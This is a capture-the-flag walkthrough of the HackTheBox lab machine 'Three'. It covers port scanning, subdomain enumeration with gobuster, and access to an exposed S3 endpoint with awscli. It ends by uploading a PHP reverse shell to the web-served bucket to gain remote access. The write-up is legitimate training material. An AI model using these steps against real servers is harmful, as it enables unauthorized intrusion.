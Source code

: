 ```yaml
---

title: Walkthrough - Three
published: true
---
```


Tags: Security, AWS, DNS, VHOST.
Description: Hackthebox boot2root machine.
Difficulty: Very-Easy

* * *

## Task 1 How many TCP ports are open?

- `sudo nmap -Pn -sS 10.129.77.119 -p- -vvv`

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

* * *

## Task 2 What is the domain of the email address provided in the "Contact" section of the website?

- `thetoppers.htb`

* * *

## Task 3 In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

- `/etc/hosts`

* * *

## Task 4 Which sub-domain is discovered during further enumeration?

Add thetopppers.htb to your /etc/hosts file. After adding we can scan for sub-somains.

* * *

## Task 5 Which service is running on the discovered sub-domain?

We have a hint that the sub-domain is two characters here. I dont know of any 2 char or digit wordlists so goign to make one with `crunch 1 2 0123456789abcdefghijklmnopqrstuvqxyz -o dnslist.txt`. DNS with gobuster doesnt work for this list but using gobuster vhost does.

- `gobuster vhost -u thetoppers.htb -t 100 -w dnslist.txt`
- `amazon s3`

* * *

## Task 6 Which command line utility can be used to interact with the service running on the discovered sub-domain?

- `awscli`

* * *

## Task 7 Which command is used to set up the AWS CLI installation?

- `aws configure`

* * *

## Task 8 What is the command used by the above utility to list all of the S3 buckets?

- `aws s3 ls`

* * *

## Task 9 This server is configured to run files written in what web scripting language?

- `php`

* * *

## Submit root flag 

With this information we can now connect to the sevrer. Configure with `aws configure` and use temp parameters.

We can use ls to list the s3 endpoints the server is hosting

- `aws --endpoint=http://s3.thetoppers.htb ls`

Now we can list objects the specific buckets contain.

- `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

Seeing as this bucket is available for us to visit and powered by php we can then copy a reverse shell to the server and get access.

- `aws --endpoint=http://s3.thetoppers.htb s3 cp php-reverse-shell.php s3://thetoppers.htb/images/`

![](/assets/three01.png)

* * *